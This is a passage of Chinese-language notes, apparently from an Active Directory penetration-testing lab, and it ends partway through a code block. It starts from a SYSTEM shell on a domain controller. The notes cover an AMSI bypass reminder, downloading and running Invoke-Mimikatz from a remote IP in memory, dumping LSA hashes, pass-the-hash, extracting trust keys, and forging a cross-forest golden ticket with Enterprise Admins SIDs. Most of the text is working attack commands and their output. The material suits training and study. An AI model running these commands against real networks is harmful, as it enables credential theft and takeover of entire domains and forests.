 
Windows PowerShell running as user MCORP-DC$ on MCORP-DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> hostname
mcorp-dc
PS C:\Windows\system32>
```

记得byopass AMSI

在mcorp-dc，把mimikatz从远程服务器导入到内存中
```
iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

dump出mcorp-dc中的所有用户的哈希

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

# 跨林访问（Across Forest）

用Administrator打开一个DA的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:powershell.exe"'
```

枚举dcorp-dc的所有trust
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local

Domain: EUROCORP.LOCAL (ecorp / S-1-5-21-1652071801-1423090587-98612180)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL
    * 1/29/2022 1:20:05 AM - CLEAR   - 1f 6f c4 25 57 c2 50 6e e2 8c b8 94 07 da 97 13 cc 89 5d 6d 0e 47 05 91 74 7c 3a c1
        * aes256_hmac       91df6bcc4a71d585b710532ff73b662d43e4d83a00821f7d509319e4ce1897c5
        * aes128_hmac       47f41fc169b79c34d8af08afa3cfdde9
        * rc4_hmac_nt       cccb3ce736c4d39039b48c79f075a430
```

伪造一条到EUROCORP.LOCAL的TGT
```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:cccb3ce736c4d39039b48c79f075a430 /service:krbtgt /target:EUROCORP.LOCAL /ticket:C:\AD\kekeo_old\trust_forest_tkt.kirbi"'
```

注意上面的sids的参数是Enterprise Admins的MemberSID
```
PS C:\AD> Get-NetGroupMember -GroupName "Enterprise Admins" -Domain moneycorp.local
